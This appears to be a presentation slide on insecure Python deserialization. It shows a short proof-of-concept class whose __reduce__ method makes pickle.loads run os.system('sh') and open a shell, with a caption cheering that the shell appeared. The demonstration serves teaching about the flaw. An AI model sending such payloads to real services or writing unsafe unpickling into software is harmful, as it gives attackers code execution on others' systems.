

# Vulnerable
Pickle
import pickle
import os
class Exploit(object):
	def __reduce__(self):
		comm="sh"
		return (os.system, (comm,))
a = pickle.dumps(Exploit())
b = pickle.loads(a)
shell跑出來啦!!!